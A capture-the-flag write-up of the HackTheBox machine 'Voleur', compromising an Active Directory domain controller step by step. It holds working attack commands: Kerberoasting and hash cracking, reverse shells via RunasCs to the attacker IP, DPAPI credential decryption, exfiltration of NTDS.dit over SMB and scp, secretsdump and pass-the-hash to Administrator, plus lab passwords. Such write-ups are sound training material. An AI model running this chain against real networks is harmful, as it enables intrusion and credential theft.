- Machine Name: Voleur
- OS Type: Windows
- Difficulty: Medium

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.95 scan initiated Sun Jul  6 08:38:23 2025 as: /usr/lib/nmap/nmap -sVC --open -p- -oN initial/nmap.out -vv 10.10.11.76
Nmap scan report for 10.10.11.76
Host is up, received echo-reply ttl 127 (0.33s latency).
Scanned at 2025-07-06 08:38:31 IST for 30968s
Not shown: 65514 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-07-06 11:42:54Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
2222/tcp  open  ssh           syn-ack ttl 127 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 42:40:39:30:d6:fc:44:95:37:e1:9b:88:0b:a2:d7:71 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC+vH6cIy1hEFJoRs8wB3O/XIIg4X5gPQ8XIFAiqJYvSE7viX8cyr2UsxRAt0kG2mfbNIYZ+80o9bpXJ/M2Nhv1VRi4jMtc+5boOttHY1CEteMGF6EF6jNIIjVb9F5QiMiNNJea1wRDQ2buXhRoI/KmNMp+EPmBGB7PKZ+hYpZavF0EKKTC8HEHvyYDS4CcYfR0pNwIfaxT57rSCAdcFBcOUxKWOiRBK1Rv8QBwxGBhpfFngayFj8ewOOJHaqct4OQ3JUicetvox6kG8si9r0GRigonJXm0VMi/aFvZpJwF40g7+oG2EVu/sGSR6d6t3ln5PNCgGXw95pgYR4x9fLpn/OwK6tugAjeZMla3Mybmn3dXUc5BKqVNHQCMIS6rlIfHZiF114xVGuD9q89atGxL0uTlBOuBizTaF53Z//yBlKSfvXxW4ShH6F8iE1U8aNY92gUejGclVtFCFszYBC2FvGXivcKWsuSLMny++ZkcE4X7tUBQ+CuqYYK/5TfxmIs=
|   256 ae:d9:c2:b8:7d:65:6f:58:c8:f4:ae:4f:e4:e8:cd:94 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMkGDGeRmex5q16ficLqbT7FFvQJxdJZsJ01vdVjKBXfMIC/oAcLPRUwu5yBZeQoOvWF8yIVDN/FJPeqjT9cgxg=
|   256 53:ad:6b:6c:ca:ae:1b:40:44:71:52:95:29:b1:bb:c1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILv295drVe3lopPEgZsjMzOVlk4qZZfFz1+EjXGebLCR
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
52804/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
60860/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
60861/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
60863/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
60889/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windows, cpe:/o:linux:linux_kernel

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 48495/tcp): CLEAN (Timeout)
|   Check 2 (port 28661/tcp): CLEAN (Timeout)
|   Check 3 (port 60782/udp): CLEAN (Timeout)
|   Check 4 (port 35476/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-07-06T11:43:54
|_  start_date: N/A

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul  6 17:14:39 2025 -- 1 IP address (1 host up) scanned in 30975.95 seconds

```

### Creds

As is common in real life Windows pentests, you will start the Voleur box with credentials for the following account: ryan.naylor / HollowOct31Nyt

## Enumeration

### Port 139,445/SMB

let’s start enumerating the SMB service first i validate the credentials using netexec

```bash
sudo nxc smb 10.10.11.76 -u ryan.naylor -p HollowOct31Nyt
```



it shows NTLM:False and the STATUS_NOT_SUPPORTED shows that kerberos authentication is needed here

first i request TGT 

```bash
impacket-getTGT 'Voleur.htb/ryan.naylor:HollowOct31Nyt' -dc-ip 10.10.11.76
```



to solve KRB_AP_ERR_SKEW(Clock skew too great), we can run following command

```bash
sudo ntpdate 10.10.11.76
```



now we can request TGT, as the kerberos works with Time we need to make same timezone while dealing with kerberos. now we can request TGT for the ryan user

```bash
impacket-getTGT 'Voleur.htb/ryan.naylor:HollowOct31Nyt' -dc-ip 10.10.11.76
```



to use this we need to export KRB5CCNAME environment variable

```bash
export KRB5CCNAME=/home/kali/hackthebox/Voleur/ryan.naylor.ccache
```

now we’ll add the domain and domain controller hostnames in /etc/hosts

```bash
echo "10.10.11.76 voleur.htb dc.voleur.htb" | sudo tee -a /etc/hosts
```



and now we can check our credentials 



if you getting KDC REALM error make sure add following in /etc/krb5.conf

```bash
[libdefaults]
    default_realm = VOLEUR.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    forwardable = true
[realms]
    VOLEUR.HTB = {
        kdc = dc.voleur.htb
        admin_server = dc.voleur.htb
    }
[domain_realm]
    .voleur.htb = VOLEUR.HTB
    voleur.htb = VOLEUR.HTB
```

now let’s check the open shares

```bash
sudo nxc smb dc.voleur.htb -u ryan.naylor -p HollowOct31Nyt -k --shares
```



nice we have the read access to IT share, let’s connect with that share using smbclient

```bash
sudo smbclient //dc.voleur.htb/IT -U ryan.naylor@VOLEUR.HTB%HollowOct31Nyt -k
```





we found Access_Review.xlsx let’s download it

i transffered it to my windows host and when trying to open i found that it is password protected



i used `access2john` to first get the hash of the password

```bash
office2john Access_Review.xlsx > hash
```

and then use john to crack the hash

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```



nice we got the password for excel sheet, use this 



now let’s keep this informtion and run bloodhound to get the proper domain map and find the shortest attacks

```bash
bloodhound-python -c all -u ryan.naylor -p HollowOct31Nyt -d voleur.htb -dc dc.voleur.htb -ns 10.10.11.76 -k
```



and load the json files in bloodhound



we can see the WriteSPN



we can perfrom TargetedKerberos attack on the svc_winrm to get the user’s kerberos ticket hash and then 

```bash
python ~/offsec/tools/targetedKerberoast.py -d voleur.htb -u svc_ldap -p M1XyC9pW7qT5Vn --dc-host dc.voleur.htb --request-user svc_winrm -k
```



nice we got the hash let’s try to crack it

```bash
hashcat -m 13100 svc_winrm.hash /usr/share/wordlists/rockyou.txt
```



nice, let’s request TGT for the svc_winrm user, and then login to target machine using evil-winrm

```bash
impacket-getTGT 'Voleur.htb/svc_winrm:AFireInsidedeOzarctica980219afi' -dc-ip 10.10.11.76
```



```bash
export KRB5CCNAME=/home/kali/hackthebox/Voleur/svc_winrm.ccache
```

let’s use the evil-winrm to login as svc_winrm

```bash
evil-winrm -i dc.voleur.htb -r voleur.htb
```



as we can see that svc_ldap user is member of restore_users who has GenericWrite permission over Lacey.Miller we can either use this to perform kerberos attack or we can perform shadow credential 



i tried targetKerberoast attack on the lacey.miller and Shadow Credentials attack but none of them are working so i took another path, as we found that todd.wolfe is deleted user and we can see that the svc_ldap user is member of restore_users, so let’s first get shell as svc_ldap

```bash
.\RunasCs.exe svc_ldap M1XyC9pW7qT5Vn powershell -r 10.10.14.6:445
```



and we got the shell



Bingo!! we got the shell

let’s run follwoing command to list the deleted accounts in Domain

```bash
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```



we need to restore this user first we need ObjectGUID

```bash
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects
```



now we can use **Restore-ADObject** to restore The user

```bash
Restore-ADObject -Identity "1c6b1deb-c372-4cbb-87b1-15031de169db"
```

let’s check if the user has been restored successfully



let’s get shell as todd.wolfe

```bash
.\RunasCs.exe todd.wolfe NightT1meP1dg3on14 powershell -r 10.10.14.6:443
```



then i started searching for interesting files



after that i found the DPAPI Credentials in the AppData folder, i created C:\temp folder and then copied the Credentials

```bash
C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Local\Microsoft\Credentials>copy DFBE70A7E5CC19A398EBF1B96859CE5D \temp\
```



and now we need masterkey which we can found at `C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Protect\S-1-5-21-3927696377-1337352550-2781715495-1110` let’s copy this to the \temp folder as well



now to transfer the both files to our machine i used impacket-smbserver

```bash
impacket-smbserver test . -user admin -password admin -smb2support
```

on target machine

```bash
net use \\10.10.14.6\test admin /user:admin
```

now we can copy our files using smb share

```bash
copy 08949382-134f-4c63-b93c-ce52efc0aa88 \\10.10.14.6\test\

copy DFBE70A7E5CC19A398EBF1B96859CE5D \\10.10.14.6\test\
```

then i used impacket-dpapi to first get the key from masterkey

```bash
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password NightT1meP1dg3on14
```



let’s decrypt the credential file using key

```bash
impacket-dpapi credential -file DFBE70A7E5CC19A398EBF1B96859CE5D -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
```



looking for the other files i found another credentials file as well at `C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Credentials`



and the transfer this to the kali machine as well and run impacket-dpapi credential command with this file

```bash
impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83 
```



and if we see that the user is member of Remote-Management users as well so we can login to it using evil-winrm



get the TGT for the jeremy.combs

```bash
impacket-getTGT 'voleur.htb/jeremy.combs:qT3V9pLXyN7W4m' -dc-ip 10.10.11.76
```

and then export the KRB5CCNAME variable

```bash
export KRB5CCNAME=/home/kali/hackthebox/Voleur/jeremy.combs.ccache
```



and then when enumerating the system as jeremy.combs i found the id_rsa and note in the Third-Line Support folder 



let’s read the Note.txt.txt



and when i scanned the machine using nmap i found the SSH is running on port 2222 let’s transfer the id_rsa to our machine

now i remember that the excel file saying that for svc_backups’s password ask to the jeremy this is what it is reffering to?



and we can see that the jeremy user has access to software folder let’s try to login to machine using ssh

first change the permission of id_rsa

```bash
chmod 600 id_rsa
```

and then use ssh to login as svc_backup

```bash
ssh -i id_rsa svc_backup@10.10.11.76 -p 2222
```



i found the C: drive is mounted at `/mnt/c` 



and found the NTDS.dit and SAM, SYSTEM registry keys let’s copy this to our kali machine using scp

```bash
scp -i id_rsa -P 2222 svc_backup@10.10.11.76:"/mnt/c/IT/Third-Line Support/Backups/Active Directory/ntds.dit" ntds.dit
```

```bash
scp -i id_rsa -P 2222 svc_backup@10.10.11.76:"/mnt/c/IT/Third-Line Support/Backups/registry/SYSTEM" system
```

```bash
scp -i id_rsa -P 2222 svc_backup@10.10.11.76:"/mnt/c/IT/Third-Line Support/Backups/registry/SECURITY" security
```



and then i used impacket-secretsdump to dump the credentials from NTDS.dit

```bash
impacket-secretsdump -system system -security security -ntds ntds.dit LOCAL
```



and then use the impacket-getTGT to request TGT for that user

```bash
impacket-getTGT voleur.htb/Administrator -hashes aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2 -dc-ip 10.10.11.76
```



export the KRB5CCNAME 

```bash
export KRB5CCNAME=/home/kali/hackthebox/Voleur/Administrator.ccache
```

and now evil-winrm to login as Administrator

```bash
evil-winrm -i dc.voleur.htb -r voleur.htb
```

